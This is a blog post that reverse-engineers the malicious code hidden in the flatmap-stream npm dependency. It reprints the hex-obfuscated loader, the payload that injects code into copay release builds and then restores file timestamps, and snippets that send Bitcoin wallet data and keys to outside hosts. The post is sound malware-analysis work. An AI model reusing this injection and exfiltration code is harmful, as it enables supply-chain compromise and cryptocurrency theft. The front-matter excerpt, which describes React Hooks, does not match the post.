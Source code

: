 ```yaml
---
title: Reversing flatmap-stream
date: "2019-01-13"
path: "/reversing-flatmap-stream/"
excerpt: React Hooks is a quirky proposed API available in the 16.7 alpha, allowing developers to more easily separate concerns and reuse logic related to component lifecycle. Let's have a quick look at how to use them. 
titleImage: "./whattosay.png"
tags: ["javascript", "flatmap-stream", "reversing"]
---
```


flatmap-stream was included as a dependency in a widely used NPM library event-stream as a nested*.* It was discovered that [the minified version of flatmap-stream had some extra, obfuscated code](https://github.com/dominictarr/event-stream/issues/116). Let’s reverse the code to try to figure out what exactly what it is doing.


## Prettifying the code
```javascript
!function(){
    try{
        var r=require, t=process;
        function e(r){
            return Buffer.from(r,"hex").toString()
        }
        
        var n=r(e("2e2f746573742f64617461")),
        o=t\[e(n[3])\][e(n[4])];
        
        if(!o)return;
        
        var u=r(e(n\[2]))[e(n[6])\](e(n[5]),o),
        a=u.update(n[0],e(n[8]),e(n[9]));
        a+=u.final(e(n[9]));
        
        var f=new module.constructor;
        
        f.paths=module.paths,f\[e(n[7])\](a,""),f.exports(n[1])
    }
    catch(r){}
}();
```

The first thing of note is the `e` function, which converts hex strings. The payload for this malware is hidden within the these hex strings.

First string:
```javascript
> decode("2e2f746573742f64617461")
'./test/data'
```

This line imports code from the ./test/data folder, which contains 10 more hex obfuscated strings.

```javascript
module.exports=[
    "...truncated...",
    "...truncated...",
    "63727970746f",
    "656e76",
    "6e706d5f7061636b6167655f6465736372697074696f6e",
    "616573323536",
    "6372656174654465636970686572",
    "5f636f6d70696c65",
    "686578",
    "75746638"
];
```

After decoding and unobfuscating the code, we get

```javascript
!function(){
    try{
        var r=require, t=process;
        function decode(r){
            return Buffer.from(r,"hex").toString()
        }
        
        // Get data
        var data = require("./test/data")
        // Get the package description, and exit early if it doesn't exist
        var packageDescription = process.env.npm_package_description
        if (!packageDescription) {
            return;
        }
        
        // Decode the first payload with the npm package description
        var u = require('crypto').createDecipher('aes256', packageDescription)
        var firstPayload = u.update(data[0], 'hex', 'utf8')
        firstPayload += u.final('utf8');
        
        // Build a new module
        var f=new module.constructor;
        
        // Build a new module with the first and second payloads
        f.paths = module.paths,f._compile(firstPayload, ""),f.exports(data[1])
    }
    catch(r){}
}();
```

This bootstrapping script is looking for a specific module name to properly decode the payload. We could write a script to harvest npm package descriptions that have flatmap-stream in their dependency tree. However, as the target package has already be discovered, we’ll cheat. The AES256 decryption key is `A Secure Bitcoin Wallet`, which was/is the description of the copay package.

## The first payload
```javascript
module.exports = function(e) {
    try {
        // Exit if specific args aren't in the command line
        if (!/build\\:.*\\-release/.test(process.argv[2])) return;

        // Same npm pack
        var packageDescription = process.env.npm_package_description,
            r = require("fs"),
            i = "./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js",

            // Get stats on ReedSolomonDecoder
            // Read file
            n = r.statSync(i),
            c = r.readFileSync(i, "utf8"),
            // Create another cipher
            o = require("crypto").createDecipher("aes256", packageDescription),

            // Decrypt
            s = o.update(e, "hex", "utf8");
        s = "\\n" + (s += o.final("utf8"));

        // Write the payload into ReedSolomonDecoder, and reset utimes
        var a = c.indexOf("\\n/*@@*/");
        0 <= a && (c = c.substr(0, a)), 
        r.writeFileSync(i, c + s, "utf8"), 
        r.utimesSync(i, n.atime, n.mtime), 
        process.on("exit", function() {
            try {
                r.writeFileSync(i, c, "utf8"), r.utimesSync(i, n.atime, n.mtime)
            } catch (e) {}
        })
    } catch (e) {}
};
```

The first payload injects the second payload into release builds of the package. 

## The second payload
After decrypting the second payload with the key listed above, we find the meat and potatoes of the malware. Rather that posting the code for the entire block of code, I’ll post snippets that indicate what this payload does.

### POST to copayapi.host:8080 and 111.90.151.134:8080 with url e and payload n
```javascript
postToUrl("636f7061796170692e686f7374", e, n), 
postToUrl("3131312e39302e3135312e313334", e, n)
```

### Look for wallet files and send the wallet data to hosts above
```javascript
readFromFile("profile", function(e) {
    for (var t in e.credentials) {
        var n = e.credentials[t];
        // If livenet is the network, look in balanceCache files
        "livenet" == n.network && readFromFile("balanceCache-" + n.walletId, 
          function(e) {
            var t = this;
            t.balance = parseFloat(e.balance.split(" ")[0]);
            "btc" == t.coin && t.balance < 100 || 
            "bch" == t.coin && t.balance < 1e3 || 
            // Set the wallet's xPubKey to a global var
            // POST wallet information to url:8080/c, 200 bytes at a time
            (global.CSSMap[t.xPubKey] = !0, chunkAndPost("c", JSON.stringify(t)))
        }.bind(n))
    }
});
```

### Extract wallet keys and send to hosts above
```javascript
var e = require("bitcore-wallet-client/lib/credentials.js");
// Extends getKeysFunc to send all the key information 
// Also sends xPubKey previously set in the global var, and clears it
e.prototype.getKeysFunc = e.prototype.getKeys, e.prototype.getKeys = function(e) {
    var t = this.getKeysFunc(e);
    try {
        global.CSSMap && global.CSSMap[this.xPubKey] && 
        (delete global.CSSMap[this.xPubKey], 
        // POST to url:8080/p, 200 bytes at a time
        chunkAndPost("p", e + "\\t" + this.xPubKey))
    } catch (e) {}
    return t
}
``` 

At this point, it’s fairly clear that this piece of malware steals bitcoins and bitcoin cash. This is a fairly narrow scope attack. Most users of the event-stream package weren’t even affected in the first place.

I realize that this blog post is coming fairly late after the original incident, and most of the detective work has already been performed. However, I wanted to take my own stab at it to see if I could reverse it myself.

